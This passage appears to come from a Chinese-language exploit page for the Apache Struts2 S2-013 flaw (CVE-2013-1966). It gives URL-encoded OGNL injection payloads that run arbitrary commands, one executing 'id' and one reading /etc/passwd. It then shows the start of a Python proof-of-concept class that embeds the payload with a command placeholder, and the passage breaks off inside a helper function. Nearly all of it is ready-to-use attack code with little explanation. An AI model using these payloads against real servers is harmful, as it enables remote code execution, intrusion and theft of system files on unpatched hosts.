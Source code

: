 #### 执行命令

```java
?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27id%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

#### 读取文件

```java
?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27cat%20%2fetc%2fpasswd%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

### POC

```python

#!/usr/bin/env python3

import urllib
import random
import string
import requests

class S2_013_BaseVerify:
    def __init__(self, url):
        self.info = {
            'name': 'Struts2 S2-013漏洞,又名CVE-2013-1966漏洞',
            'description': 'Struts2 S2-013漏洞可执行任意命令, 影响范围为: Struts 2.0.0 - Struts 2.3.14.1',
            'date': '2013-04-16',
            'type': 'RCE'
        }
        self.url = url
        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/link.action'
        self.capta = self.get_capta() 
        self.payload = '?a=%24%7B%23_memberAccess%5B"allowStaticMethodAccess"%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%27{cmd}%27).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println(%27dbapp%3D%27%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D'
                                         
    def filter(self, check_str):

        """
        过滤无用字符

        :param str check_str:待过滤的字符串

        :return str temp:过滤后的字符串
        """
        
        temp = ''
        for i in check_str:
            if i != '\n' and i != '\x00':
                temp = temp + i
```